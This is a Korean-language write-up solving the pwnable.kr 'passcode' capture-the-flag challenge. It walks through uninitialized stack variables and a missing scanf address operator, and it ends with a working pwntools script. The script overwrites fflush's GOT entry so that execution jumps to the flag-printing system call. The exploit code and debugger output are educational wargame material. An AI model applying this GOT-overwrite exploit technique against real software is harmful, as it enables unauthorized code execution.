

이번 문제는 인증 절차를 무력화 시켜 플래그를 얻는 문제입니다.

```c
/* 
Mommy told me to make a passcode based login system.
My initial C code was compiled without any error!
Well, there was some compiler warning, but who cares about that?

ssh passcode@pwnable.kr -p2222 (pw:guest)

=========================================================

passcode@pwnable:~$ checksec ./passcode
[*] '/home/passcode/passcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
*/

#include <stdio.h>
#include <stdlib.h>

void login() {
    int passcode1;
    int passcode2;

    printf("enter passcode1 : ");
    scanf("%d", passcode1);
    fflush(stdin);

    // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
    printf("enter passcode2 : ");
    scanf("%d", passcode2);

    printf("checking...\n");
    if (passcode1 == 338150 && passcode2 == 13371337) {
        printf("Login OK!\n");
        system("/bin/cat flag");
    } else {
        printf("Login Failed!\n");
        exit(0);
    }
}

void welcome() {
    char name[100];
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);
}

int main() {
    printf("Toddler's Secure Login System 1.0 beta.\n");

    welcome();
    login();

    // something after login...
    printf("Now I can safely trust you that you have credential :)\n");
    return 0;
}
```

코드를 보면 `scanf()` 에 주소 연산자가 누락되어있어 두 `passcode` 변수는 입력을 받을 수 있는 상황이 아닙니다.

그리고 브루트포스도 32비트라서 하나는 가능할지 몰라도 두개까지 맞춘다는건 불가능에 가깝습니다.

눈에 띄는점은 `welcome()` 의 `name` 변수 길이가 상당히 길고 `login()` 에 존재하는 두 `passcode` 변수는 초기화를 안하고 사용하고 있습니다.

```plaintext
welcome
================================================
Stack level 0, frame at 0xffa10a70:
 eip = 0x804862f in welcome; saved eip = 0x804867f
 called by frame at 0xffa10a90
 Arglist at 0xffa10a68, args:
 Locals at 0xffa10a68, Previous frame's sp is 0xffa10a70
 Saved registers:
  ebp at 0xffa10a68, eip at 0xffa10a6c

login
================================================
Stack level 0, frame at 0xffa10a70:
 eip = 0x8048586 in login; saved eip = 0x8048684
 called by frame at 0xffa10a90
 Arglist at 0xffa10a68, args:
 Locals at 0xffa10a68, Previous frame's sp is 0xffa10a70
 Saved registers:
  ebp at 0xffa10a68, eip at 0xffa10a6c
```

스택상으로 보면 `welcome()` 과 `login()` 이 동일한 스택 영역을 재활용 하기 때문에 `name` 변수에 값을 잘만 넣어주면 `passcode` 를 원하는 값으로 셋팅할 수 있겠네요.

```plaintext
pwndbg> x/x $ebp-0x70
0xffc88ed8:     0x00000028
pwndbg> x/x $ebp-0x10
0xffc88f38:     0xf7e57cab
pwndbg> x/x $ebp-0x0c
0xffc88f3c:     0x164b5400
pwndbg> p/d ($ebp-0x10)-($ebp-0x70)
$3 = 96
pwndbg> p/d ($ebp-0x0c)-($ebp-0x70)
$4 = 100
```

`name` 의 주소는 `0xffc88ed8` 이고, 오프셋을 계산해보면 `passcode1` 은 96바이트, `passcode2` 는 100바이트 뒤에 존재합니다.

흠... `passcode1` 은 덮을 수 있는데 `passcode2` 는 범위 밖이라 불가능합니다.

```plaintext
pwndbg> x/wx $ebp-0x0c
0xffe4ec0c:     0x8b85a800
pwndbg> run <<< $(python -c 'print("a"*96+"\xe6\x28\x05")')
Starting program: /home/andrew/fun/writeups/wargame/pwnablekr/passcode/passcode <<< $(python -c 'print("a"*96+"\xe6\x28\x05")')

pwndbg> x/wx $ebp-0x0c
0xffc5447c:     0x622e3800
```

차라리 다른 방향으로 꺾는게 나을 것 같습니다.

문제 코드를 다시 보면 `passcode1` 이 초기화되지 않기 때문에 `welcome()` 에서 `passcode1` 을 원하는 주소로 덮으면 이후 `scanf("%d",passcode1)` 에서 받아들인 정수 값은 제가 임의로 쓴 주소에 write 되게 됩니다.

```c
void login() {
    int passcode1;
    int passcode2;

    printf("enter passcode1 : ");
    scanf("%d", passcode1);
    fflush(stdin);
```

현재 바이너리에는 Partial RELRO 가 적용되어있어 GOT 영역에 쓰기가 가능합니다.

그러니 `scanf()` 직후 호출되는 `fflush()` 즉, `fflush@got.plt` 에 원하는 주소를 write 해주면 `fflush()` 호출 시 GOT 를 따라 해당 코드로 점프하게 됩니다.

PLT/GOT 의 동작 과정은 저번 포스팅에서 이미 다뤘으니 생략하겠습니다.

```plaintext
   0x080485d7 <+115>:   mov    DWORD PTR [esp],0x80487a5
   0x080485de <+122>:   call   0x8048450 <puts@plt>
   0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:   call   0x8048460 <system@plt>
```

덮을 주소는 passcode 조건 체크 로직 뒤 `system("/bin/cat flag");` 를 실행하는 부분으로 하겠습니다.

```python
#!/usr/bin/env python

from pwn import *

context.log_level = "debug"

conn = ssh(host="pwnable.kr", port=2222, user="passcode", password="guest")
proc = conn.process(executable="./passcode", argv=["./passcode"])

fflush_got = 0x804a004
system = 0x080485d7

payload = "a"*96
payload += p32(fflush_got)
payload += str(int(system))

print(proc.recvline(1024, timeout=1.0))
proc.sendline(payload)
print(proc.recvall(timeout=1.0))
proc.close()
```

이제 GOT 를 덮으면 `fflush()` 가 호출되는 대신에 플래그가 출력됩니다.



읽어주셔서 감사합니다.